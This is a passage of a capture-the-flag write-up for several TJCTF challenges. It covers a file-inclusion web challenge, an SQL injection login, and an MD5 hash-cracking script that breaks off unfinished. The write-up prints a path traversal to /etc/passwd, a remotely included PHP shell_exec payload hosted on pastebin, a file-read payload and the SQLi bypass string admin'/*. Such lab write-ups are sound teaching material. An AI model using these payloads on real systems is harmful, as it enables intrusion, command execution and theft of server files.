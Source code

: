 > Flag : `tjctf{no_more_key_jams}`

### File Viewer (Web) - 70

The problem looks like some type of a file inclusion vulnerability. Navigating to /../../../etc/passwd to test for LFI by passing "/../../../etc/passwd" as the file parameter gives us the passwd file on the server. It appears as though any text passed to the file parameter is executed. We can try using php to get some output from a website like pastebin:

```php
<?php
 echo shell_exec('ls');
?>
```

We get the output as expected on the screen. A directory called 'i_wonder_whats_in_here' seems interesting so we navigate there and find flag.php. We can then use this piece of code to get the flag :

```php
<?php
 echo file_get_contents('/var/www/html/i_wonder_whats_in_here/flag.php');
?>
```

Flag : tjctf{l0CaL_f1L3_InCLUsi0N_is_bad}

### Login Sequel (Web) -

The webpage, although vulnerable to SQLi, filters out some characters like '--'. So we can bypass the filter by logging in with `admin'/*`

> Flag : `tjctf{W0w_wHa1_a_SqL1_exPeRt!}`

### Titanic (Crypto) - 35

Just download the titanic movie script and use the following python code to convert all the words into md5 hashes and test it with the provided hash of the flag.

```python
import hashlib

# part 1 : get the words

alphabets = 'abcdefghijklmnopqrstuvwxyz'
file_obj = open('titanic_wordlist.txt', 'r')
contents = file_obj.read()
test_words = contents.split()
wordlist = []
for word in test_words:
    new_word = ''
    for ch in word:
        if ch in alphabets or ch in alphabets.upper() or ch in ['"', '\'']:
            new_word += ch.lower()
    if len(new_word) != 0:
        wordlist.append(new_word)
# print(test_words, wordlist)
file_obj.close()
# print(wordlist[8250:8260])

# part 2 : test word against flag hashes
# flag format : tjctf{pass}
# flag hash : e246dbab7ae3a6ed41749e20518fcecd

text = 'tjctf{titanic}'
hash_obj = hashlib.md5(text.encode())
test_hash = hash_obj.hexdigest()
print(test_hash)
flag_hash = 'e246dbab7ae3a6ed41749e20518fcecd'
```